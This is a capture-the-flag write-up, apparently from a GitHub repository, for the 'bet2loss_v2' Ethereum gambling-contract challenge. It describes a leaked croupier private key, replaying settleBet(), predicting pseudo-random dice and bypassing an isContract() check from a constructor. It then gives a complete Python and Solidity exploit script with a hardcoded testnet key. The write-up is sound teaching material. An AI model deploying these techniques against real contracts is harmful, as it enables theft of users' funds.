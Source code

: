 ### bet2loss_v2 | DONE

> author：Lurkrul, kevin

> topic：replay attack

This task was adapted from HCTF 2018 bet2loss; the web source for bet2loss has been published on github [[1][5]].

The private key of *croupier* is leaked in the settings.py, thus the function with modifier onlyCroupier can be called directly from this account.

Note that bet binds *player*, `settleBet()` can perform replay attack, the revenue is related to the number of replays and *diceWin*. Since the number of bets is limited in contract, it is necessary to maximize *diceWin* (good luck, all in If I succeed, I have nothing to say). Each time bet gets 100k, while the flag needs 300k. Settle bet once, and replay twice is enough.

The method of calculating dice is pseudo-random. After getting the private key, you can implement the signature yourself. The only thing you need to predict is *block.number*. This can be passed by deploying a contract to get it in advance. `settleBet()` first check the return value of `isContract()`, which is judged by extcodesize, but returns 0 [[2][6]] when called from constructor of a contract. In summary, a contract can be used to achieve a stable win.

Actually in the competition, almost no team to consider bypassing `isContract()`, and some teams did not find the leaked private key but directly blast the secret *reveal* and solved it by interacting with the server at web layer. 

I noticed that some teams got stuck when they generated the signature. Here is a little mention. The contract does not seem to have changed, but the type of *commitLastBlock* has changed, while the return content of `abi.encodePacked()` vary from the type of argument [[3][7]], so the code for HCTF can't be used directly.



[5]:https://github.com/LoRexxar/HCTF2018_bet2loss
[6]:https://ethereum.stackexchange.com/questions/15641/how-does-a-contract-find-out-if-another-address-is-a-contract/15642#15642
[7]:https://solidity.readthedocs.io/en/v0.5.13/abi-spec.html#non-standard-packed-mode


```python
from web3 import Web3
from solc import compile_source
import os, random

infura_url = 'https://ropsten.infura.io/v3/xxx'
web3 = Web3(Web3.HTTPProvider(infura_url))
accounts = {
    'player': {
        'addr': '0x8F1D24E114aA84bC66d8950142008348b4c6cEd0',
        'priv': ''
    }, 
    'croupier': {
        'addr': '0xACB7a6Dc0215cFE38e7e22e3F06121D2a1C42f6C',
        'priv': '6F08D741943990742381E1223446553A63B38A3AA86BEEF1E9FC5FCF61E66D12'
    }
}


def sign(reveal):
    result = {'reveal':reveal}
    
    commitLastBlock = web3.eth.blockNumber + 250
    result['commitLastBlock'] = commitLastBlock
    
    commit = web3.sha3( reveal.to_bytes(32, 'big') )
    result['commit'] = int.from_bytes(commit, 'big')
    
    message = commitLastBlock.to_bytes(5, 'big') + commit
    message_hash = web3.sha3(message)
    signature = web3.eth.account.signHash(message_hash, private_key=accounts['croupier']['priv'])
    result['r'] = signature['r']
    result['s'] = signature['s']
    result['v'] = signature['v']
    
    return result


def transact(_to, _data):
    tx = {
        'from': defaultAccount['addr'],
        'nonce': web3.eth.getTransactionCount(defaultAccount['addr']),
        'to': _to,
        'gas': 1000000,
        'value': 0,
        'gasPrice': web3.eth.gasPrice * 2,
        'data': _data,
    }
    signed_tx = web3.eth.account.signTransaction(tx, defaultAccount['priv'])
    tx_hash = web3.eth.sendRawTransaction(signed_tx.rawTransaction)
    tx_receipt = web3.eth.waitForTransactionReceipt(tx_hash)
    return tx_receipt


def settleBet():
    transact( gameAddress, web3.sha3(b'settleBet(uint256)')[:4].hex() + hex(reveal)[2:].rjust(64, '0') )


def getFlag():
    transact( attackAddress, web3.sha3(b'getFlag()')[:4].hex() )


attack = '''pragma solidity ^0.4.24;
contract Attack {
    address constant croupier = 0xACB7a6Dc0215cFE38e7e22e3F06121D2a1C42f6C;
    uint8 constant modulo = 100;
    uint40 constant wager = 1000;
    uint8 betnumber;
    address game;

    constructor(address _game, uint40 commitLastBlock, uint commit, bytes32 r, bytes32 s, uint8 v, uint reveal) public {
        game = _game;
        bytes32 signatureHash = keccak256(abi.encodePacked(commitLastBlock, commit));
        require (croupier == ecrecover(signatureHash, v, r, s), "signature is not valid.");
        require (commit == uint(keccak256(abi.encodePacked(reveal))), "commit is not valid.");

        bytes32 entropy = keccak256(abi.encodePacked(reveal, uint(block.number)));
        uint _betnumber = uint(entropy) % uint(modulo);
        betnumber = uint8(_betnumber);

        game.call(bytes4(keccak256("placeBet(uint8,uint8,uint40,uint40,uint256,bytes32,bytes32,uint8)")),betnumber,modulo,wager,commitLastBlock,commit,r,s,v);

    }

    function getFlag() external {
        game.call(bytes4(keccak256("PayForFlag()")));
        selfdestruct(0);
    }

}'''


defaultAccount = accounts['player']
gameAddress = ''

reveal = random.randint(1, 2**40)
result = sign(reveal)

compiled_sol = compile_source(attack)
contract_interface = compiled_sol['<stdin>:Attack']
bytecode = contract_interface['bin']
bytecode += gameAddress[2:].rjust(64, '0')
bytecode += hex( result['commitLastBlock'] )[2:].rjust(64, '0')
bytecode += hex( result['commit'] )[2:].rjust(64, '0')
bytecode += hex( result['r'] )[2:].rjust(64, '0')
bytecode += hex( result['s'] )[2:].rjust(64, '0')
bytecode += hex( result['v'] )[2:].rjust(64, '0')
bytecode += hex( result['reveal'] )[2:].rjust(64, '0')
tx = {
    'from': defaultAccount['addr'],
    'nonce': web3.eth.getTransactionCount(defaultAccount['addr']),
    'gas': 1000000,
    'value': 0,
    'gasPrice': web3.eth.gasPrice * 2,
    'data': '0x' + bytecode,
}
signed_tx = web3.eth.account.signTransaction(tx, defaultAccount['priv'])
tx_hash = web3.eth.sendRawTransaction(signed_tx.rawTransaction)
tx_receipt = web3.eth.waitForTransactionReceipt(tx_hash)
attackAddress =  tx_receipt.contractAddress
print('attack Address: ' + attackAddress)


defaultAccount = accounts['croupier']
for _ in range(3):
    settleBet()
    print('settleBet')


defaultAccount = accounts['player']
getFlag()
print('done')


```
